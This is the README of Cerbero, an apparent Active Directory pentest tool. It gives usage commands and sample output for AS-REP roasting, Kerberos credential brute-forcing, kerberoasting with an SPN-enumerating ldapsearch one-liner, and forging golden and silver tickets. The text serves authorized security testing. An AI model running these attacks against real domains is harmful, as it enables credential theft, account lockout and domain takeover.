 <!-- cargo-sync-readme start -->

# Cerbero

Kerberos protocol attacker. Tool to perform several tasks
related with Kerberos protocol in an Active Directory pentest.

## Installation

From crates:
```sh
cargo install cerbero
```

From repo:
```sh
git clone https://gitlab.com/Zer1t0/cerbero.git
cd cerbero/
cargo install --path .
```

## Commands
- [ask](#ask)
- [asreproast](#asreproast)
- [brute](#brute)
- [convert](#convert)
- [craft](#craft)
- [hash](#hash)
- [kerberoast](#kerberoast)
- [list](#list)

### Ask
The `ask` command allows to retrieve Kerberos tickets (TGT/TGS) from the KDC
(Domain Controller in Active Directory environment). Moreover also
perform requests to obtain tickets by using the S4U2Self and S4U2Proxy
Kerberos extensions.

Ask TGT:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -vv
INFO - Request TGT for Hades
INFO - Save Hades TGT in Hades.ccache
```

Ask TGS:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -s ldap/under.world -vv
WARN - No TGT found in Hades.ccache: Unable to read the file 'Hades.ccache': No such file or directory (os error 2)
INFO - Request TGT for Hades
INFO - Request ldap/dc01 TGS for Hades
INFO - Save Hades TGS for ldap/dc01 in Hades.ccache
```

Perform S4u2self:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -i Zeus
WARN - No TGT found in Hades.ccache: Unable to read the file 'Hades.ccache': No such file or directory (os error 2)
INFO - Request TGT for Hades
INFO - Request Zeus S4U2Self TGS for Hades
INFO - Save Zeus S4U2Self TGS for Hades in Hades.ccache
```

Perform S4u2proxy:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -i Zeus -s ldap/under.world -vv
WARN - No TGT found in Hades.ccache: Unable to read the file 'Hades.ccache': No such file or directory (os error 2)
INFO - Request TGT for Hades
WARN - No Zeus S4U2Self TGS for Hades found
INFO - Request Zeus S4U2Self TGS for Hades
INFO - Request ldap/under.world S4U2Proxy TGS for Zeus
INFO - Save Zeus S4U2Proxy TGS for ldap/under.world in Hades.ccache
```


### AsRepRoast
`asreproast` can be used to discover users that do not require
pre-authentication and retrieve a ticket to crack with hashcat or john.

Check many users:
```shell
cerbero asreproast under.world users.txt
```

Check many users with weak RC4 cipher (easier to crack):
```shell
cerbero asreproast under.world users.txt --cipher rc4
```

### Brute
`brute` performs TGTs requests in order to discover user credentials
based on the KDC response. This bruteforce technique allows you to
discover:
+ Valid username/password pairs
+ Valid usernames
+ Expired passwords
+ Blocked or disabled users

This attack should be performed carefully since can block user
accounts in case of perform many incorrect authentication attemps
for the same user.

Test many users and passwords:
```shell
cerbero brute under.world users.txt passwords.txt
```

Test one user and many passwords:
```shell
cerbero brute under.world Zeus passwords.txt
```

Test many users and one password:
```shell
cerbero brute under.world users.txt Olympus1234
```

Test one user and one password:
```shell
cerbero brute under.world Zeus Olympus1234
```

### Convert
`convert` ticket files between krb (Windows) and
ccache (Linux) formats.

Convert ccache to krb:
```shell
cerbero convert hades.ccache hades.krb
```

Convert krb to ccache:
```shell
cerbero convert hades.krb hades.ccache
```
### Craft
To `craft` golden and silver tickets.

Craft a golden ticket (by using the `krbtgt` AES256 key):
```shell
$ cerbero craft -u under.world/kratos --sid S-1-5-21-658410550-3858838999-180593761 --aes fed0c966ff7f88d776bb35fed0f039725f8bbb87017d5b6b76ee848f25562d2c -vv
INFO - Save kratos TGT in kratos.ccache
```

Craft a silver ticket (for the service `cifs` hosted by the machine `styx`):
```shell
$ cerbero craft -u under.world/kratos --sid S-1-5-21-658410550-3858838999-180593761 --ntlm 29f9ab984728cc7d18c8497c9ee76c77 -s cifs/styx,under.world -vv
INFO - Save kratos TGS for cifs/styx.under.world in kratos.ccache
```

### Hash
Calculate the Kerberos keys (password hashes) from the user password.

Calculate RC4 key (NT hash):
```shell
$ cerbero hash 'IamtheKingofD34d!!'
rc4:86e0a04f7a44ed4d4a7eaf2ee977c799
```

Calculate all the keys:
```shell
$ cerbero hash 'IamtheKingofD34d!!' -u under.world/Hades
rc4:86e0a04f7a44ed4d4a7eaf2ee977c799
aes128:fe165dec904772a90a177069e4ea7019
aes256:1304965c35176aeb72e1ae5fdd6c2fe2e901af7223cb75f5eaac25ad667136e7
```

### Kerberoast
To format encrypted part of tickets in order to be cracked by hashcat or john.

```shell
$ cerbero kerberoast -s services.txt -u under.world/Hades -p IamtheKingofD34d!!
```
To get a list of services you could use `ldapsearch`:
```shell
ldapsearch -b "dc=under,dc=world" -w IamtheKingofD34d!! -D "Hades@under.world" "(&(samAccountType=805306368)(servicePrincipalName=*)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))" servicePrincipalName | grep servicePrincipalName: | cut -d ' ' -f 2 | tee services.txt
```

### List
`list` shows the tickets information of a credentials file. Similar
to `klist` command.

```shell
$ cerbero list hades.ccache -fe
Ticket cache (ccache): FILE:hades.ccache

Hades@UNDER.WORLD => krbtgt/UNDER.WORLD@UNDER.WORLD
Valid starting: 12/22/2020 17:39:34
Expires : 12/23/2020 03:39:34
Renew until: 12/29/2020 17:39:34
Flags: forwardable renewable initial pre_authent
Etype (skey, tkt): aes256-cts-hmac-sha1-96 (18), aes256-cts-hmac-sha1-96 (18)
```

## Credits
This work is based on great work of other people:
- [Impacket](https://github.com/SecureAuthCorp/impacket) of Alberto Solino [@agsolino](https://github.com/agsolino)
- [Rubeus](https://github.com/GhostPack/Rubeus) of Will [@harmj0y](https://twitter.com/harmj0y) and Elad Shamir [@elad_shamir](https://twitter.com/elad_shamir)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz) of [@gentilkiwi](https://twitter.com/gentilkiwi)

<!-- cargo-sync-readme end -->
